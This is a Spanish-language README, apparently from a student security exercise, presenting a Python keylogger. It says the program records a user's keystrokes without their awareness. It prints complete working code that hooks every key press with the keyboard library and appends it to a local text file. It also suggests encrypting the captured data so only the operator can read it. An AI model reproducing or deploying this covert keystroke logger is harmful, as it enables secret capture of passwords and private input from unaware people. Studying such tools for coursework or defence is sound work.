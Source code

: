 Descripción:
Este programa llamadop keylogger se usa para registrar las telcas que pulsa el usuario sin que el sea consciente de ello.
El código está diseñado para que registre cada pulsación de teclado; después será registrado los datos del teclado en el archivo datos_keylogger.txt. En mi caso he utilizado el 0 para salir del keylogger.

Áreas de mejora
- Seguridad:  no tiene medidas de seguridad. Para que los datos que nos llegan sean más seguros deberiamos de utilizar algun tipo de algoritmo para cifrarlos y solo poder leerlos nosotros.
- Compatibilidad: deberiamos buscar una manera de poner la ruta del archivo para que sea compatible con todos los sistemas operativos. 

¿Cómo utilizarlo?
Simplemente ejecutaremos el archivo keylogger.py y empezaremos a seguir nuestro trabajo de forma normal. Cuando queramos pararlo pulsaremos 0 y veremos como en el archivo datos_keylogger.txt se ha registrado con exito los datos introducidos.

¿Cómo funciona el Keylogger?
#Aquí importamos la librería que necesitamos; keyboard:

import keyboard

#Aquí tenemos la funcion que realiza el proceso de registrar las teclas pulsadas junto con los espacios. 
def onKeyboardEvent(event):
    with open("C:\\Users\\laura\\Desktop\\SI_T5_P1\\datos_keylogger.txt", "a") as file:
        if event.name == "space":
            file.write(" ")
        else:
            file.write(str(event.name))

keyboard.on_press(onKeyboardEvent)
print("Pulsa 0 para salir")
keyboard.wait("0")

